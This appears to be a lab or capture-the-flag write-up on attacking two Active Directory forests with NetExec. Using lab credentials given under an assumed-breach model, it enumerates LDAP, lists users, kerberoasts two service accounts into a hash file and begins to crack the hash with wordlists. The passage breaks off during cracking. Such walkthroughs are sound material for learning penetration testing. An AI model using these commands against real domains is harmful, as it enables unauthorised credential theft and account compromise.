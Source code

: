 [What is NetExec? (nxc)](#nxc)

In this lab, there are 2 [forests](https://www.varonis.com/blog/active-directory-forest) - antennae.rv and backward.rv. In each forest, there will generally be at least 1 [domain controller](https://en.wikipedia.org/wiki/Domain_controller) that will be used to handle authentication and identity management in the forests.

[Active Directory Forest](#active-directory-forest)  
[Domain Controller](https://youtu.be/cTe5GsyhKUk?si=KvqJdu5vX98czdD5)

These domain controllers can usually be identified by the presence of the [Kerberos](https://en.wikipedia.org/wiki/Kerberos_(protocol)) service, or [LDAP](https://www.varonis.com/blog/the-difference-between-active-directory-and-ldap). We can test these with nxc:


[Kerberoasting](#kerberoasting)  
[LDAP](#ldap)

> ~$ nxc ldap dc01.antennae.rv 
>
>LDAP        10.3.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv)

> ~$ nxc ldap dc02.backward.rv 
>
> LDAP        10.3.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv)

If we run this against any of the other member servers, you will find that LDAP is not open.

> ~$ nxc ldap sql01.antennae.rv

The following credentials were provided for a user in the antennae.rv forest, which is often referred to as an [assumed breach model](https://trustedsec.com/blog/assumed-breach-the-evolution-of-offensive-security-testing).

> ~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH'
>
>LDAP        10.3.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv)
>
>LDAP        10.3.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH

So through this we know that the given credentials in the challenge are valid.

> ~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --users

This showed me that svc_vdi and svc_sql are **service accounts**

[What is Active Directory Service Account?](#active-directory-service-account)

Next I want to use chloe.lim to attempt to kerberoast the service accounts:

> ~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --kerberoasting output.txt

This returns a hash into the output.txt file.

#### Decrypting the Hash

Looking into /usr/share/wordlists, there are multiple txt files including: john.txt and rockyou.txt.gz which is compressed
